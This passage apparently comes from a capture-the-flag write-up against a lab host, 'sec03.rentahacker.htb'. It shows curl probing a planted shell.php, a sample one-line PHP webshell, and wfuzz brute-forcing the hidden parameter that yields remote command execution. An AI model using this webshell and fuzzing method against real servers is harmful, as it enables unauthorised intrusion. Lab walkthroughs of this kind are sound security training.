 Running with `-I` to get headers, I see it’s a `200 OK` response with just no content:

```

root@kali# curl -I http://sec03.rentahacker.htb/shell.php
HTTP/1.1 200 OK
Date: Sun, 25 Aug 2019 11:26:04 GMT
Server: Apache/2.4.25 (Debian)
Content-Type: text/html; charset=UTF-8

```

If it’s anything like my `php` webshells, it’s something simple like `<?php system($_GET["cmd"]); ?>`. But to use that, I’ll need to know what parameter it’s reading. I’ll use `wfuzz` to try a bunch. As always, I’ll start this, see the length of the default response, kill it, and add (in this case) `--hh 0` and start again. This finds the parameter:

```

root@kali# wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://sec03.rentahacker.htb/shell.php?FUZZ=id --hh 0
********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: http://sec03.rentahacker.htb/shell.php?FUZZ=id
Total requests: 2588

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000197:  C=200      1 L        3 W           61 Ch        "hidden"

Total time: 55.28373
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 46.81304

```

### RCE

I can test this out with curl:

```

root@kali# curl http://sec03.rentahacker.htb/shell.php?hidden=id
uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)

```

If I want to do any longer commands, I’ll need to urlencode them. I can have curl do that for me too:
